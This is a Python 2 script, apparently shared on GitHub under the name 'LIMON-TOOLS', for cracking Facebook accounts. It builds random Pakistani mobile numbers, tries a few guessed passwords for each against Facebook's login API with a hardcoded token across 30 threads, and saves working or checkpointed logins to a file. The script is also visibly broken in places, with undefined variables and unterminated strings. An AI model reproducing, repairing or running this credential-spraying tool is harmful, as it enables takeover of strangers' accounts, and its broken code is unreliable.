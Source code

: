 #!/usr/bin/python
#coding=utf-8
import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,getpass
os.system('rm -rf .txt')
for n in range(10000):

    nmbr = random.randint(1111111, 9999999)
    
    sys.stdout = open('.txt', 'a')

    print(nmbr)

    sys.stdout.flush()
    
try:
    import requests
except ImportError:
    os.system('pip2 install mechanize')
    
try:
    import mechanize
except ImportError:
    os.system('pip2 install request')
    time.sleep(1)
    os.system('Then type: python LOL-MIX ')

import os,sys,time,datetime,random,hashlib,re,threading,json,urllib,cookielib,requests,mechanize
from multiprocessing.pool import ThreadPool
from requests.exceptions import ConnectionError
from mechanize import Browser


reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(),max_time=1)
br.addheaders = [('User-Agent', 'Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]
br.addheaders = [('user-agent','Dalvik/1.6.0 (Linux; U; Android 4.4.2; NX55 Build/KOT5506) [FBAN/FB4A;FBAV/106.0.0.26.68;FBBV/45904160;FBDM/{density=3.0,width=1080,height=1920};FBLC/it_IT;FBRV/45904160;FBCR/PosteMobile;FBMF/asus;FBBD/asus;FBPN/com.facebook.katana;FBDV/ASUS_Z00AD;FBSV/5.0;FBOP/1;FBCA/x86:armeabi-

def acak(b):
    w = 'ahtdzjc'
    d = ''
    for i in x:
        d += '!'+w[random.randint(0,len(w)-1)]+i
    return cetak(d)


def cetak(b):
    w = 'ahtdzjc'
    for i in w:
        j = w.index(i)
        x= x.replace('!%s'%i,'\033[%s;1m'%str(31+j))
    x += '\033[0m'
    x = x.replace('!0','\033[0m')
    sys.stdout.write(x+'\n')


def jalan(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		time.sleep(00000.1)
def tik():
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\x1b[1;93mPlease Wait \x1b[1;91m"+o),;sys.stdout.flush();time.sleep(1)


back = 0
oks = []
id = []
cpb = []
vulnot = "\033[31mNot Vuln"
vuln = "\033[32mVuln"

os.system("clear")
print  """

                     
\033[1;94mFACEBOOK  PRINCE-LIMON
                  
\033[1;92mFB PAGE   PRINCE-LIMON

"""

####Logo####

logo1 = """
  

  _    ___ __  __  ___  _  _    _____ ___   ___  _    ___ 
 | |  |_ _|  \/  |/ _ \| \| |__|_   _/ _ \ / _ \| |  / __|
 | |__ | || |\/| | (_) | .` |___|| || (_) | (_) | |__\__ \
 |____|___|_|  |_|\___/|_|\_|    |_| \___/ \___/|____|___/
                                                          

                                                                                      
                                                  

╔══──────────────────────────╗─══╗
║ OWNER 💓💓💓LIMON-TOOLS            ║║
║  GITHUB 💝💝💝 LIMON-TOOLS   ║ ║
║ FACEBOOK 💝💝💝PRINCE LIMON  ║ ║
║  ENJOY 💝💝💝file Cloning                ║ ║
║   Note 💝💝💝Use Fastest Speed NeT  ║ ║
╚══──────────────────────────╝─══╝

"""
logo2 = """

█
  _    ___ __  __  ___  _  _    _____ ___   ___  _    ___ 
 | |  |_ _|  \/  |/ _ \| \| |__|_   _/ _ \ / _ \| |  / __|
 | |__ | || |\/| | (_) | .` |___|| || (_) | (_) | |__\__ \
 |____|___|_|  |_|\___/|_|\_|    |_| \___/ \___/|____|___/
                                                          

                                                   
                         DON'T COPY MY SCRIPT
                                      LIMON-TOOLS          
                                           TNX
╔══──────────────────────────╗─══╗
║ OWNER 💓💓💓LIMON-TOOLS            ║║
║  GITHUB 💝💝💝 LIMON-TOOLS   ║ ║
║ FACEBOOK 💝💝💝PRINCE LIMON  ║ ║
║  ENJOY 💝💝💝file Cloning                ║ ║
║   Note 💝💝💝Use Fastest Speed NeT  ║ ║
╚══──────────────────────────╝─══╝
print("""
Owner: LIMON-TOOLS 
Facebook: PRINCE LIMON

""")
CorrectUsername = "M"
CorrectPassword = "D"

loop = 'true'
while (loop == 'true'):
    username = raw_input("\033[1;97m\x1b[1;91mTool Username \x1b[1;97m»» \x1b[1;97m")
    if (username == CorrectUsername):
    	password = raw_input("\033[1;97m \x1b[1;91mTool Password  \x1b[1;97m» \x1b[1;97m")
        if (password == CorrectPassword):
            print "Logged in successfully as " + username 
	    time.sleep(2)
            loop = 'false'
        else:
            print "\033[1;94mWrong Password"
            os.system('xdg-https://wa.me/+923188214452')
    else:
        print "\033[1;94mWrong Username"
        os.system('xdg-https://wa.me/+923188214452')


numm = [5,2,5,2,2]
##### LICENSE #####
#=================#
def lisensi():
    os.system('clear')
    login()
####login#########
def login():
    os.system('clear')
    print logo1
    print "\033[1;93m[1]\x1b[1;91m══START ( \033[1;92m )"
    time.sleep(0.05)
    print "\033[1;95m[2]\x1b[1;96m ══EXIT "
    time.sleep(0.05)
    print '\x1b[1;94m[0]\033[1;91m ══BACK '
    pilih_login()

def pilih_login():
    peak = raw_input("\n\033[1;95m ══CHOOSE : \033[1;93m")
    if peak =="":
        print "\x1b[1;97mFill In Correctly"
        pilih_login()
    elif peak =="1":
        Zeek()
def Zeek():
    os.system('clear')
    print logo1
    print '\x1b[1;93m[1] ══START CLONING  '
    time.sleep(0.10)
    print '\x1b[1;92m[2] ══EXIT'
    time.sleep(0.10)
    print '\x1b[1;95m[0] ══BACK '
    time.sleep(0.10)
    print '\x1b[1;96m ════RK'
    time.sleep(0.10)
    print '\x1b[1;97m════LIMON-TOOLS' 
    time.sleep(0.10)
    print '\x1b[1;91m ════DONT COPY MY SCRIPT'
    time.sleep(0.10)
    print '\x1b[1;94m════CP ID OPEN AFTER 3 DAYS ENJOY'
   
    time.sleep(0.05)
    action()

def action():
    peak = raw_input('\n\033[1;97m ══CHOOSE:\033[1;97m')
    if peak =='':
        print '[!] Fill In Correctly'
        action()
    elif peak =="1":              
        os.system("clear")
        print logo2
        print "\033[1;94mEnter any Pakistan Mobile code Number"+'\n'
        print '\033[1;92mEnter any code 01 02 03 04 05 06 07 08 10 11 12 13 14 15 16 20 21 22 23 24 30 31 32 33 34 35 36 40 41 42 43 44 45 46 47 48 49'
        for i in numm:
            print('x' * i)
        try:
            c = raw_input("\033[1;97mCHOOSE : ")
            k="03"
            idlist = ('.txt')
            for line in open(idlist,"r").readlines():
                id.append(line.strip())
        except IOError:
            print ("[!] File Not Found")
            raw_input("\n[ Back ]")
            blackmafiax()
    elif peak =='0':
        login()
    else:
        print '[!] Fill In Correctly'
        action()
    print 50* '\033[1;94m-'
    xxx = str(len(id))
    jalan ('\033[1;91m Total ids Accounts: '+xxx)
    jalan ('\033[1;92mSim code you choose: '+c)
    jalan ("\033[1;93mWait  Start Cracking...")
    jalan ("\033[1;94mTo Stop Process Press Ctrl+z")
    print 50* '\033[1;97m-'
    def main(arg):
        global cpb,oks
        user = arg
        try:
            os.mkdir('save')
        except OSError:
            pass
        try:
            pass1 = user
            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass1 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
            q = json.load(data)
            if 'access_token' in q:
                print '\x1b[1;32m[MR-OK]  ' + k + c + user + '  |  ' + pass1                                       
                okb = open('save/cloned.txt', 'a')
                okb.write(k+c+user+pass1+'\n')
                okb.close()
                oks.append(c+user+pass1)
            else:
                if 'www.facebook.com' in q['error_msg']:
                    print '\033[1;97m[MR-CP] ' + k + c + user + '  |  ' + pass1
                    cps = open('save/cloned.txt', 'a')
                    cps.write(k+c+user+pass1+'\n')
                    cps.close()
                    cpb.append(c+user+pass1)
                else:
                    pass2 = k + nama + user
                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass2 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                    q = json.load(data)
                    if 'access_token' in q:
                        print '\x1b[1;32m[MR-OK]  ' + k + c + user +  '  |  ' + pass2
                        okb = open('save/cloned.txt', 'a')
                        okb.write(k+c+user+pass2+'\n')
                        okb.close()
                        oks.append(c+user+pass2)
                    else:
                        if 'www.facebook.com' in q['error_msg']:
                            print '\033[1;97m[MR-CP] ' + k + c + user + '  |  ' + pass2
                            cps = open('save/cloned.txt', 'a')
                            cps.write(k+c+user+pass2+'\n')
                            cps.close()
                            cpb.append(c+user+pass2)
                        else:
                            pass3="Pakistan"
                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass3 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                            q = json.load(data)
                            if 'access_token' in q:
                                print '\x1b[1;32m[MR-OK]  ' + k + c + user + '  |  ' + pass3
                                okb = open('save/cloned.txt', 'a')
                                okb.write(k+c+user+pass3+'\n')
                                okb.close()
                                oks.append(c+user+pass3)
                            else:
                                if 'www.facebook.com' in q['error_msg']:
                                    print '\033[1;97m[MR-CP] ' + k + c + user + '  |  ' + pass3 
                                    cps = open('save/cloned.txt', 'a')
                                    cps.write(k+c+user+pass3+'\n')
                                    cps.close()
                                    cpb.append(c+user+pass3)
                                else:
                                    pass4="123456"
                                    data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass4 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                    q = json.load(data)
                                    if 'access_token' in q:
                                        print '\x1b[1;32m[MR-OK]  ' + k + c + user + '  |  ' + pass4 
                                        okb = open('save/cloned.txt', 'a')
                                        okb.write(k+c+user+pass4+'\n')
                                        okb.close()
                                        oks.append(c+user+pass4)
                                    else:
                                        if 'www.facebook.com' in q['error_msg']:
                                            print '\033[1;97m[MR-CP] ' + k + c + user + '  |  ' + pass4
                                            cps = open('save/cloned.txt', 'a')
                                            cps.write(k+c+user+pass4+'\n')
                                            cps.close()
                                            cpb.append(c+user+pass4)
                                        else:
                                            pass5="786786"
                                            data = br.open('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=1&email=' +k+c+user+ '&locale=en_US&password=' + pass5 + '&sdk=ios&generate_session_cookies=1&sig=3f555f98fb61fcd7aa0c44f58f522efm')
                                            q = json.load(data)
                                            if 'access_token' in q:
                                                print '\x1b[1;32m[MR-OK]  ' + k + c + user + '  |  ' + pass5
                                                okb = open('save/cloned.txt', 'a')
                                                okb.write(k+c+user+pass5+'\n')
                                                okb.close()
                                                oks.append(c+user+pass5)
                                            else:
                                                if 'www.facebook.com' in q['error_msg']:
                                                    print '\033[1;97m[MR-CP] ' + k + c + user + '  |  ' + pass5 
                                                    cps = open('save/cloned.txt', 'a')
                                                    cps.write(k+c+user+pass5+'\n')
                                                    cps.close()
                                                    cpb.append(c+user+pass5)
                                                                                                                                                                                                                
                                                                                                                                                                                                                
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            
                                                                                                                                                                                                            


                                                                                                                                                                                                            
                                                                                                                                                                                                                    
                                                                                                                                                                                                            



        except:
            pass
        
    p = ThreadPool(30)
    p.map(main, id)
    print 50* '\033[1;91m-'
    print 'Process Has Been Completed ...'
    print 'Total CP/Ok: '+str(len(oks))+'/'+str(len(cpb))
    print('Cloned Accounts Has Been Saved : save/cloned.txt')
    jalan("Note : Your Offline account Will Open after 10 to 20 days")
    print ''
    print """



\033[1;96mThanks For Using My tool
\033[1;95mFb\033[1;97mLIMOpythonS"""

    
    raw_input("\n\033[1;92m[\033[1;92mBack\033[1;95m]")
    login() 
          
if __name__ == '__main__':
    login()
